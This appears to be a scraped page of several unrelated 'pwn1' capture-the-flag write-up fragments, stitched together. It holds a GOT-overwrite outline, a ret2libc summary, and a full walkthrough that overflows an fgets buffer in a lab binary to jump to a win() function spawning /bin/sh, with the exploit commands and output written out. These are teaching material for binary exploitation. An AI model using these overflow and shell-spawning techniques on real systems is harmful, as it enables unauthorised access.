 1. exit GOT -> main  
2. printf GOT -> ppppr  
3. printf(format) -> system('/bin/sh')

[read more](http://note.taqini.space/#/ctf/HackZoneVIIICTF-2020/?id=pwn1)

Original writeup (http://taqini.space/2020/04/12/HackZone-VIII-CTF-pwn-
writeup/#pwn1).It was a ret2libc task , but we had firstly to leak the libc base address
using BOF (i leaked it through printf address) than we will return to main and
perform our ret2 System :D  
[Writeup](https://github.com/kahla-sec/CTF-
Writeups/tree/master/Midnight%20Sun%20CTF%202020%20Quals/pwn1)

Original writeup (https://github.com/kahla-sec/CTF-
Writeups/tree/master/Midnight%20Sun%20CTF%202020%20Quals/pwn1).[No captcha required for preview. Please, do not write just a link to original
writeup
here.](https://arieees666.github.io/pwn_exhibit/content/2019_CTF/tamuCTF/writeup_pwn1.html)Please, do not write just a link to original writeup here.

Original writeup (https://anee.me/intro-to-pwn-65876c0cb558).## Description of the challenge

Welcome to the series of 3 pwn challenges!

Author: NoobMaster

## Solution

We open the binary in Ghidra and instantly notice the buffer overflow on
``fgets``. It reads 0x50 (80) bytes into a 64 bytes buffer. Given the name of
the local variable ``local_48``, it means we have 0x48 bytes until the return
address. So, we have 8 bytes of the return address to work with.

```c  
void main(EVP_PKEY_CTX *param_1)  
{  
 char local_48 [64];  
  
 init(param_1);  
 puts("Would you like a flag?");  
 fgets(local_48,0x50,stdin);  
 system("cat fake_flag.txt");  
 return;  
}  
```

Running ``checksec`` on the binary shows that it lacks a stack canary and is
not a PIE. Another interesting function in Ghidra is ``win``, which calls
``system("/bin/sh")``. This is simply an introductory buffer overflow.

```c  
void win(void)  
{  
 system("/bin/sh");  
 return;  
}  
```

Collect the address for ``win``: ``0x0040124a``

Use the address to create the exploit:  
```  
$ python3 -c 'print("a" * 0x48)'  
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x4a\x12\x40\x00\x00\x00\x00\x00' | ./pwn1  
Would you like a flag?  
n00bz{fake_flag}  
Segmentation fault (core dumped)  
```

Initially this seems like it doesn't work, but I think it's just because it
doesn't properly redirect the streams. So let's add a command at the end of
the output, the shell we open will receive it and execute it before closing.  
```  
$ echo -ne 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x4a\x12\x40\x00\x00\x00\x00\x00cat flag.txt' | ./pwn1  
Would you like a flag?  
n00bz{fake_flag}  
n00bz{I_like_.hidden}  
Segmentation fault (core dumped)  
```  
Success! We can see the "real" flag printed! Trust me, that's exactly what the
flag was.  

Original writeup (https://dothidden.xyz/n00bzctf_2023/pwn1/).